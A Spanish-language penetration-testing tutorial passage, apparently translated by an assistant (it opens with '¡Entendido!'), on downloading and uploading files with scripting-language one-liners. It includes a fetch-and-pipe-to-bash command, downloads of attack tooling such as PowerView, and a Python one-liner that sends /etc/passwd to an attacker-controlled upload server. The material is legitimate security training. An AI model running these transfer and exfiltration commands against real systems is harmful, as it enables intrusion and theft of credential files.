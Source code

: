 ¡Entendido! Aquí tienes la traducción manteniendo los títulos en inglés:

Es común encontrar diferentes lenguajes de programación instalados en las máquinas que estamos atacando. Lenguajes de programación como Python, PHP, Perl y Ruby son comúnmente disponibles en distribuciones de Linux, pero también pueden estar instalados en Windows, aunque esto es mucho menos común.

Podemos usar algunas aplicaciones predeterminadas de Windows, como `cscript` y `mshta`, para ejecutar código JavaScript o VBScript. JavaScript también puede ejecutarse en hosts Linux.

Según Wikipedia, existen alrededor de [700 lenguajes de programación](https://en.wikipedia.org/wiki/List_of_programming_languages), y podemos crear código en cualquier lenguaje de programación para descargar, subir o ejecutar instrucciones en el sistema operativo. Esta sección proporcionará algunos ejemplos utilizando lenguajes de programación comunes.

---
## Python

Python es un lenguaje de programación popular. Actualmente, se admite la versión 3, pero podemos encontrar servidores donde todavía existe la versión 2.7 de Python. `Python` puede ejecutar one-liners desde una línea de comandos del sistema operativo usando la opción `-c`. Veamos algunos ejemplos:

### Python 2 - Download

```r
python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

### Python 3 - Download

```r
python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```

---
## PHP

`PHP` también es muy prevalente y proporciona múltiples métodos de transferencia de archivos. [Según los datos de W3Techs](https://w3techs.com/technologies/details/pl-php), PHP es utilizado por el 77.4% de todos los sitios web con un lenguaje de programación del lado del servidor conocido. Aunque la información no es precisa, y el número puede ser ligeramente menor, a menudo encontraremos servicios web que utilizan PHP al realizar una operación ofensiva.

Veamos algunos ejemplos de cómo descargar archivos usando PHP.

En el siguiente ejemplo, utilizaremos el módulo PHP [file_get_contents()](https://www.php.net/manual/en/function.file-get-contents.php) para descargar contenido de un sitio web combinado con el módulo [file_put_contents()](https://www.php.net/manual/en/function.file-put-contents.php) para guardar el archivo en un directorio. `PHP` se puede usar para ejecutar one-liners desde una línea de comandos del sistema operativo usando la opción `-r`.

### PHP Download with File_get_contents()

```r
php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```

Una alternativa a `file_get_contents()` y `file_put_contents()` es el módulo [fopen()](https://www.php.net/manual/en/function.fopen.php). Podemos usar este módulo para abrir una URL, leer su contenido y guardarlo en un archivo.

### PHP Download with Fopen()

```r
php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
```

---
También podemos enviar el contenido descargado a una pipe, similar al ejemplo sin archivos que ejecutamos en la sección anterior usando cURL y wget.

### PHP Download a File and Pipe it to Bash

```r
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```

**Nota:** La URL se puede usar como nombre de archivo con la función @file si se han habilitado los wrappers fopen.

---
## Other Languages

`Ruby` y `Perl` son otros lenguajes populares que también se pueden usar para transferir archivos. Estos dos lenguajes de programación también admiten la ejecución de one-liners desde una línea de comandos del sistema operativo usando la opción `-e`.

---
### Ruby - Download a File

```r
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

---
### Perl - Download a File

```r
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

---
## JavaScript

JavaScript es un lenguaje de scripting o programación que permite implementar características complejas en páginas web. Al igual que con otros lenguajes de programación, podemos usarlo para muchas cosas diferentes.

El siguiente código JavaScript está basado en [esta](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/373068) publicación, y podemos descargar un archivo usándolo. Crearemos un archivo llamado `wget.js` y guardaremos el siguiente contenido:

```r
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

Podemos usar el siguiente comando desde un símbolo del sistema de Windows o terminal de PowerShell para ejecutar nuestro código JavaScript y descargar un archivo.

### Download a File Using JavaScript and cscript.exe

```r
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

---
## VBScript

[VBScript](https://en.wikipedia.org/wiki/VBScript) ("Microsoft Visual Basic Scripting Edition") es un lenguaje de scripting activo desarrollado por Microsoft que está modelado en Visual Basic. VBScript ha sido instalado por defecto en todas las versiones de escritorio de Microsoft Windows desde Windows 98.

El siguiente ejemplo de VBScript se puede usar basado en [esta](https://stackoverflow.com/questions/2973136/download-a-file-with-vbs) publicación. Crearemos un archivo llamado `wget.vbs` y guardaremos el siguiente contenido:

```r
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

Podemos usar el siguiente comando desde un símbolo del sistema de Windows o terminal de PowerShell para ejecutar nuestro código VBScript y descargar un archivo.

### Download a File Using VBScript and cscript.exe

```r
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

---
## Upload Operations using Python3

Si queremos subir un archivo, necesitamos entender las funciones en un lenguaje de programación particular para realizar la operación de carga. El módulo [requests de Python3](https://pypi.org/project/requests/) te permite enviar solicitudes HTTP (GET, POST, PUT, etc.) usando Python. Podemos usar el siguiente código si queremos subir un archivo a nuestro [uploadserver de Python3](https://github.com/Densaugeo/uploadserver).

### Starting the Python uploadserver Module

```r
python3 -m uploadserver 

File upload available at /upload
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

### Uploading a File Using a Python One-liner

```r
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

Dividamos esta one-liner en múltiples líneas para entender mejor cada pieza.

```r
# Para usar la función requests, necesitamos importar el módulo primero.
import requests 

# Definir la URL de destino donde subiremos el archivo.
URL = "http://192.168.49.128:8000/upload"

# Definir el archivo que queremos leer, abrirlo y guardarlo en una variable.
file = open("/etc/passwd","rb")

# Usar una solicitud POST de requests para subir el archivo.
r = requests.post(url,files={"files":file})
```

Podemos hacer lo mismo con cualquier otro lenguaje de programación. Una buena práctica es elegir uno e intentar construir un programa de carga.

---
## Section Recap

Entender cómo podemos usar código para descargar y subir archivos puede ayudarnos a alcanzar nuestros objetivos durante un ejercicio de red teaming, una prueba de penetración, una competencia de CTF, un ejercicio de respuesta a incidentes, una investigación forense o incluso en nuestro trabajo diario de administración de sistemas.
